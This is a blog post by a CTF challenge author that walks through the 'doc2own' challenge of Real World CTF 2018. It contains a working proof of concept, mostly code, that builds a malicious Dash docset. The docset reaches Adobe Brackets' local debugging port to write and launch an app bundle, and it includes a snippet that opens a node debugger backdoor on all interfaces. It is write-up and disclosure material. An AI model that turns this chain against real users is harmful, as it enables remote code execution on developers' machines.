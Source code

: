 ```yaml
---
layout:	post
title:	"Something About #realworldctf doc2own"
date:	2018-08-07
image: /img/2018-08-07-something-about-realworldctf-doc2own/rwctf.png
---
```


The challenge is to get a shell when the victim opens a Dash docset. Both Dash and Adobe Brackets are up to date. Actually the intended solution **involves no zero day at all**. This writeup from Team 217 [Real World CTF 2018 — doc2own](https://blog.l4ys.tw/2018/07/realworld-ctf-2018-doc2own/) (in Traditional Chinese) is the expected solution.

## The Intended Solution Without Involving 0day

#### From remote debug to shell

After the [VSCode 9333 debugging port issue](http://bluec0re.blogspot.com/2018/03/cve-2018-7160-pwning-nodejs-developers.html) I looked at some other javascript based desktop applications, especially editors and IDE. I came across this same vulnerability in Adobe Brackets: [CEF remote debugging is vulnerable to dns rebinding attack #14149](https://github.com/adobe/brackets/issues/14149)

It's weird to have a debugging port in production but Brackets does it. Unlike Atom or VSCode, Brackets is based on libCEF and custom node.js runtime binding. The debugging protocol for web frontend is the same as Chromium.

In the original report, exploit requires dns rebinding to get the random websocket uuid to start a debug session, then use DOM manipulation (there was a bug so `Runtime.Evaluate` didn't work) to inject malicious javascript to the frontend context. But node.js runtime can not be accessed so you need a V8 engine bug to achieve native code execution. The libCEF is pretty old so all you need is to grab an n-day exploit. No further sandbox. Unfortunately memory corruption is not what I am familiar with.

There are some special bridged objects in the context: `appshell` and `brackets`. In the challenge you don't really need a shell because `brackets` already gives the filesystem access.

Unrestricted file system access almost equals code execution, but it requires a trigger. There are two functions that can be turned to instant command execution.

1. `brackets.app.openURLInDefaultBrowser` does not limit `file:///` url, so point it to an executable like `.cmd` or `.exe` equals `ShellExecute` on Windows. For macOS we can use `.terminal` or `.sh`.
2. The application bundle on macOS is actually a directory with specific structure. Opening such bundle will execute a file. Method `brackets.app.showOSFolder` can trigger this behavior.

```js
function calc() {
  // use brackets.fs to write your own executable
  // makedir, writeFile, chmod are your friends
  if (brackets.app.getUserDocumentsDirectory().indexOf('/') === 0) {
    brackets.app.showOSFolder('/Applications/Calculator.app');
  } else {
      brackets.app.openURLInDefaultBrowser('file:///C:/windows/system32/calc.exe');
  }
// P.S. brackets.getModule is also available. We can even activate a node debugger backdoor
  const NodeConnection = brackets.getModule("utils/NodeConnection");
  const conn = new NodeConnection();
  conn.connect(true);
  conn.domains.base.enableDebugger(); // enable *:5858 as a backdoor, which accepts connection from another computer. Just attach it with VSCode or other debugger to execute node.js code
}
```

The patch killed dns rebinding, but this port is still open. So what if we can access it from somewhere with no Same Origin Policy?

#### The Dash Part

There was no special reason to choose Dash as this part. Dash is popular for developers, and it has a WebView that can make cross site AJAX if the document has `file:///` origin. The WebView in Dash is the same WebKit engine as Safari, **I don't think someone will burn a Safari 0day exploit in the CTF**.

You may think about directly reading flag from `file:///` via AJAX. Actually this bug has been reported for a while, including the symlink variant, as well as a directory traversal in the GCDWebServer.

![](/img/2018-08-07-something-about-realworldctf-doc2own/XHQ-73R0VHZvwNubvKipXg.png)

#### Demo

Looks like both two issues are not so serious, but together they can spawn a remote shell:

* A debugging port that only allows localhost connection
* A web browser without same origin policy

Here's a proof of concept that launches a calculator:

```bash
contents=exploit.docset/Contents
docs=$contents/Resources/Documents

rm -r $contents
mkdir -p $docs

cat > $docs/index.html <<- "EOF"
<script>
async function main() {
  const list = await fetch('http://localhost:9234/json').then(r => r.json());
  const item =  list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return console.error('invalid response');
  const url = `ws://127.0.0.1:9234/devtools/page/${item.id}`;
  console.log('url:' + url);
  exploit(url);
}
function exploit(url) {
  function calc() {
    const fs = window.appshell.fs;
    const mkdir = path => new Promise((resolve, reject) =>
      fs.makedir(path, 0755, err => err => err === 0 ? resolve(true) : reject(err)));
    const writeFile = (path, content) => new Promise((resolve, reject) =>
      fs.writeFile(path, content, 'utf8', false, err => err === 0 ? resolve(true) : reject(err)));
    const chmod = (path, mode) => new Promise((resolve, reject) =>
      fs.chmod(path, mode, err => err === 0 ? resolve(true) : reject(err)));
    const INFO_PLIST = `<?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
      <plist version="1.0">
      <dict>
        <key>CFBundleExecutable</key>
        <string>hello</string>
        <key>CFBundleIconFile</key>
        <string>AppIcon</string>
      </dict>
      </plist>`;
    const EXEC = `#!/bin/sh
      open -a Calculator`;
    const app = '/tmp/test.app/';
    const base = app + 'Contents/'
    return mkdir(base + 'MacOS')
      .then(writeFile(base + 'Info.plist', INFO_PLIST))
      .then(writeFile(base + 'MacOS/hello', EXEC))
      .then(chmod(base + 'MacOS/hello', 0777))
      .then(new Promise((resolve, reject) => {
        brackets.app.showOSFolder(app)
      }));
  }
  const ws = new WebSocket(url);
  ws.onopen = async () => {
    let counter = 13371337;
    const send = (method, params) => new Promise((resolve, reject) => {
      const id = counter++;
      const recv = ({ data }) => {
        const parsed = JSON.parse(data);
        if (parsed.id === id) {
          resolve(parsed.result);
          ws.removeEventListener('message', recv);
        } else {
          console.log('message: ', data);
        }
      };
      ws.addEventListener('message', recv);
      ws.send(JSON.stringify({ id, method, params }));
    });
    const response = await send('Runtime.evaluate', { expression: `(${calc})()` });
    console.log(response.result);
    ws.close();
  }
  ws.onerror = () => console.log('failed to connect');
}
main();
</script>
EOF

cat > $contents/Info.plist <<- "EOF"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>CFBundleIdentifier</key>
  <string>exploit</string>
  <key>CFBundleName</key>
  <string>Exploit</string>
  <key>DocSetPlatformFamily</key>
  <string>exploit</string>
  <key>dashIndexFilePath</key>
  <string>index.html</string>
  <key>isDashDocset</key>
  <true/>
</dict>
</plist>
EOF

sqlite3 -batch $contents/Resources/docSet.dsidx << "EOF"
CREATE TABLE searchIndex(id INTEGER PRIMARY KEY, name TEXT, type TEXT, path TEXT);
CREATE UNIQUE INDEX anchor ON searchIndex (name, type, path);
INSERT OR IGNORE INTO searchIndex(name, type, path) VALUES ('Exploit', 'Class', 'index.html');
EOF

open exploit.docset

tar czf exp.tar.gz exploit.docset
```

[Demo](https://youtu.be/8--cX0BF3ew)

But during the CTF, it didn't cost [Plaid Parliament of Pwning](https://ctftime.org/team/284), [CyKOR](https://ctftime.org/team/369) and [Eat, Sleep, Pwn, Repeat](https://ctftime.org/team/15712) too much time to find real zero day solutions in Dash itself. After the game, I did a quick disassemble and found some other new bugs that have been confirmed by the developer.

After reporting to [Kapeli](https://medium.com/u/f1aac0988a9), he quickly made a new release, and checked the docset repo to make sure there were no actual attack. Thanks for his response!

> The docsets available by default within Dash (including user contributed ones) have been checked and no evidence of these vulnerabilities being exploited has been found.

To protect end users of Dash, I'll not reveal the unintended bugs now. **Please upgrade to Dash 4.4.0 ASAP.**
